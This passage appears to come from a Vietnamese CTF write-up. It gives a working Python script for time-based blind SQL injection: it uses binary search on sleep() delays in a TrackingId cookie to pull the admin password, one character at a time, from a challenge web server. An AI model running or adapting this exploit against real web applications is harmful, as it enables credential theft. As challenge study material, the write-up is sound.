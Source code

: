 Khi đã phát hiện lỗi thì chỉ cần viết code exploit nữa thôi.

Dưới đây là phần code mình dùng binary search để exploit time based injection đọc password của admin

```Python
import requests

chars ="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ\"$&'()+./:;<=>@\\^_`{|}~ *?[]!-##"
url = "http://web4.luibo.online/index.php"

requests.packages.urllib3.disable_warnings() 

flag = ""

stop = False
pos = 1
while stop != True:
    char = ord('0')
    start = 32 
    end = 126
    char= (end+start)//2
    while True:
        print("Start = {} ---- End = {} ---- char = {}".format(start,end,char))
        if (end==start):
            flag += chr(char)
            print("Loading data: {}".format(flag))
            pos += 1
            start = 32
            end = 126
            if (chr(char) == '}'):
                break
        else:
            payload = "a'  (ascii(SUBSTRING(password,{},1))>{} and admin=1) -- ".format(str(pos),char)
            cookies = {"TrackingId":"a' union select IF((ascii(SUBSTRING(password,{},1))>{}) ,sleep(3),'a') from users where username='admin' -- -".format(str(pos),char)}
            r = requests.post(url, cookies = cookies,verify=False)
            if (r.elapsed.total_seconds() > 2): ## True
                start = char+1
            else: ## False
                end = char
            char= (end+start)//2

print("Found data: {}".format(flag))
```

Vì phần code trên mình lười xác thực điểm dừng, nên khi nào thấy data load được không có gì thay đổi là ok nha!

<img src="img/password.png">
